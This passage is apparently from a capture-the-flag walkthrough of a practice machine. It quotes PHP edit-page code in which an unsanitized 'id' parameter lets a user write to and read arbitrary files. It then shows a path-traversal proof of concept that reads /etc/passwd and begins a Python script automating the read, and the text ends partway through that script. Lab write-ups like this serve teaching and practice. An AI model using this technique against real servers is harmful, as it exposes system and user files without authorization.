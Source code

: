 ```

id=u62ieddrsu&txt=test+text

```

This means that the user controls `id` going into this PHP at line 80 of `/edit/index.php`:

```
//add text
if (isset($_POST['txt']) && isset($_POST['id'])) {
    chdir(getcwd() . "/../content");
    $txt_nl = nl2br($_POST['txt']);
    $html = "<div class = \"blog-text\">{$txt_nl}</div>";
    $post_file = fopen("{$_POST['id']}", "w");
    fwrite($post_file, $html);
    fclose($post_file);
    $order_file = fopen("order.txt", "a");
    fwrite($order_file, $_POST['id'] . "\n");
    fclose($order_file);
    header("Location: /edit?message=Section added!&status=success");
}

```

As there is no sanitization on the ID, this gives arbitrary write or read as the current user. If the target is a file that the current user can write, then it will write the given text to that file. But even if it fails to write the text, that file is still added to `order.txt`, which means it’ll be read and shown on the microblog page.

#### Read POC

I’ll try reading `/etc/passwd` by setting the `id` parameter to point to it:

![image-20230515142908129](https://0xdf.gitlab.io/img/image-20230515142908129.png)

This is failing to write “test” to `/etc/passwd` because my user doesn’t have access, but then the traversal payload for `passwd` is written to `order.txt`, and then the contents get loaded into the page. It shows up on the site now as well.

![image-20230515143242706](https://0xdf.gitlab.io/img/image-20230515143242706.png)

#### File Read Script

Given the multiple steps to read a file, I’ll script this. Also, because the box is periodically clearing out accounts, I’ll just register a new account each time:

```
#!/usr/bin/env python3

import random
import re
import requests
import string
import sys

import warnings
warnings.filterwarnings("ignore", category=DeprecationWarning)

file = sys.argv[1] if len(sys.argv) > 1 else "/etc/passwd"

token = ''.join(random.choice(string.ascii_lowercase) for _ in range(20))
base_url = "http://app.microblog.htb"

sess = requests.session()
sess.proxies.update({"http": "http://127.0.0.1:8080"})

```